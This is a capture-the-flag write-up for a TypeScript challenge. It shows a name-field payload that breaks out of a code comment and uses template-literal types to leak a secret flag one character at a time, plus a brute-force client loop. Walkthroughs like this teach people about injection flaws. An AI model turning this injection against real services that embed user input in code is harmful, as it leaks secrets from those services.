 ### Challenge
Name: typescrip  
Category: misc  
Difficulty: medium  

### Solution
Run `node index.js` and wait for the flag brute force to complete

### Explanation
Type check the characters of the flag until you have received the entire flag text. We can actually encapsulate the flag in a string by abusing the 
Brute force with name `*/ let a: CTF=`` and code
```
`;type CTF =`${string}bctf{'+a+'${string}}${string}`

```
The server is doing this substitution
```typescript
`/* TYPE CHECKED FOR ${name} ON ${today}. THE FLAG IS "${flag}". */` + "\n\n" + code;
```
Our injection ends up with this source code
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{${string}}${string}`
```
Here we can use `${string}` templating to check for any string, bctf{} containing any string, followed by any string.
We can get more and more specific with this injection. For example:
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{a${string}}${string}`
```
Will throw an error, but:
```typescript
/* TYPE CHECKED FOR */ let a: CTF=` ON 10/1/2023. THE FLAG IS "bctf{fake_flag}". */
`;type CTF =`${string}bctf{4${string}}${string}`
```
Will be successful, meaning we can derive the first character. For the brute force, we automate the client connection and check for successes and failures:
```javascript
let current = "";
function tryConnectionWithChar(a){/* ... source code ...*/} // updates current if successful
let alpha = "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+=-[]{};".split("");
let i = 0;
let length = 0;
setInterval(function(){
    console.log(current+alpha[i]);
    tryConnectionWithChar(current+alpha[i]);
    i++;
    if(current.length > length){ // current was updated with a correct character, start from beginning
        i = 0;
        length = current.length;
    }
    if(i==alpha.length){ // sometimes the request with the correct character gets rejected, just try again
        i=0;
    }
},200);
```